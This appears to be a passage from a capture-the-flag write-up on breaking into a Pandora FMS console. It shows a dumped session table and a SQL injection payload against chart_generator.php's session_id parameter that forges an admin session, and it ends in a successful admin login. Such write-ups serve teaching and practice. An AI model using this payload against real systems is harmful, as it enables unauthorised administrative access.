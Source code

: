 ```bash
| q4fhen11fnll9vpfd89k1mr1t7 | NULL                                                                                                                           | 1648208553  |
| qq8gqbdkn8fks0dv1l9qk6j3q8 | NULL                                                                                                                           | 1638787723  |
| r097jr6k9s7k166vkvaj17na1u | NULL                                                                                                                           | 1638787677  |
| rgku3s5dj4mbr85tiefv53tdoa | id_usuario|s:6:"daniel";                                                                                                       | 1638889082  |
| tlagedio7bl59su33r29ppe4qb | NULL                                                                                                                           | 1648214444  |
| u1kudss7r79m6n15glf9r4mhnp | id_usuario|s:5:"admin";alert_msg|a:0:{}new_chat|b:0;                                                                           | 1648220263  |
| u5ktk2bt6ghb7s51lka5qou4r4 | id_usuario|s:6:"daniel";                                                                                                       | 1638547193  |
| u74bvn6gop4rl21ds325q80j0e | id_usuario|s:6:"daniel";                                                                                                       | 1638793297  |
| u96etqg70rgu9akh0g47a41sv2 | NULL                                                                                                                           | 1648194544  |
| ur9uaolleepl77b89gs1u9aoe9 | NULL                                                                                                                           | 1648220240  |
| ut9j43rhqd1gv2829gp5mfskrg | id_usuario|s:4:"matt";alert_msg|a:0:{}new_chat|b:0;                                                                            | 1648216534  |
| vfd24n3mcad18ihbob3q70hchf | id_usuario|s:5:"admin";                                                                                                        | 1648194844  |
| vjlk5801eg1k2tjfk55m9mhqs5 | NULL                                                                                                                           | 1648212870  |
+----------------------------+--------------------------------------------------------------------------------------------------------------------------------+-------------+
```

This made much more sense to me since we already had `session_id=` parameter that was injectable  
so maybe we could replace it with some of these dumped sessions? Let's see.  
But this failed :/  

Next I spent alot of time searching for vulnerabilties and I found something interesting and it was on this  
github link:  
> https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated/blob/master/sqlpwn.py

Here I found a payload that looked like this:  
`/include/chart_generator.php?session_id=%27%20union%20SELECT%201,2,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20--%20SgGO`

So basically this should have us logged in as admin but for me It just had a blank page  
but if you look at the storage in firefox's section for cookies there is `PHPSESSID` with admin's  
token so I refreshed the page but nothing but after a bit of trying out these sessions I successfully  
managed to log in and only thing I had to do is navigate to the `/pandora_console/` and with `PHPSESSID`  
already modified we are now an admin.  

[![Capture.png](https://i.postimg.cc/RFVX513y/Capture.png)](https://postimg.cc/67gdCvff)

